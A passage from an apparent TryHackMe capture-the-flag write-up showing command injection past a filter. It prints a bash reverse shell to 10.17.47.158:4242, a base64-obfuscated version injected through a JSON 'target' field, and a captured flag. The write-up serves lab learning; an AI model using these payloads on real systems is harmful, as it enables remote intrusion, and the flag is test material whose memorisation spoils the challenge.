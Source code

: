 Ig, it has some kind of a filter:
![](/assets/img/thm/yotf/7.png)

Tried a random payload, :-; (error === progress) ????   the `&` sybmol seems to cause the issue. :P  

![](/assets/img/thm/yotf/8.png)

Since its not vulnerable to sqli. It could be vulnerable to command injection.

After trying a bunch of payloads.

so we can execute whoami. 

![](/assets/img/thm/yotf/9.png)

and the line ;-;

![](/assets/img/thm/yotf/10.png)


using the following command for getting a shell:
```
bash -i >& /dev/tcp/10.17.47.158/4242 0>&1
```

![](/assets/img/thm/yotf/11.png)

hmm, let's  try encoding it into a bash64 and then piping it out. :)

final payload:
```json
{
	"target": "\"; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xNy40Ny4xNTgvNDI0MiAwPiYx | base64 -d | bash \n"
}
```
So we finally receive a shell.


![](/assets/img/thm/yotf/12.png)

## Flag 1

![](/assets/img/thm/yotf/13.png)

```
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
```

## privilege escalation - fox

creds2 contains something interesting. The other files are empty. looks like base64 at first but it isn't.

![](/assets/img/thm/yotf/14.png)
